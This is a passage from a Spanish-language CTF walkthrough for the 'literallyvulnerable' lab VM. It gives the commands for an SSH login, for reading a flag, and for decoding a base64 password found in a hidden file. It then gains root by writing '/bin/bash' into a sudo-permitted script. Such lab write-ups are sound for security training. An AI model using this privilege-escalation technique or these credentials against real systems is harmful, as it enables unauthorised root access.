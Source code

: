 ```shell
ssh -i id_rsa john@<IP>
```

Una vez hecho eso ya estariamos dentro...

Leemos la flag...

> user.txt (flag1)

```
Almost there! Remember to always check permissions! It might not help you here, but somewhere else! ;) 
Flag: iuz1498ne667ldqmfarfrky9v5ylki
```

Si nos metemos en la siguiente ubicacion...

```shell
cd ~/.local/share/tmpFiles
```

Veremos un archivo llamado `myPassword` si lo leemos pone lo siguiente...

```
I always forget my password, so, saving it here just in case. Also, encoding it with b64 since I don't want my colleagues to hack me!
am9objpZWlckczhZNDlJQiNaWko=
```

Por lo que vemos eso es un `Base64` que si lo decodificamos veriamos lo siguiente...

```
john:YZW$s8Y49IB#ZZJ
```

Por lo que haremos `sudo -l` y veremos esto...

```
Matching Defaults entries for john on literallyvulnerable:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on literallyvulnerable:
    (root) /var/www/html/test.html
```

Podemos ejecutar eso como `root`, pero si vamos a esa ubicacion vemos que el archivo no esta creado, por lo que haremos lo siguiente...

Nos volvemos a `www-data` para poder crear el archivo `test.html`...

```shell
echo '/bin/bash' > test.html

chmod 777 test.html
```

Una vez hecho esto, nos volvemos al usuario `john` para ejecutarlo...

```shell
sudo /var/www/html/test.html
```
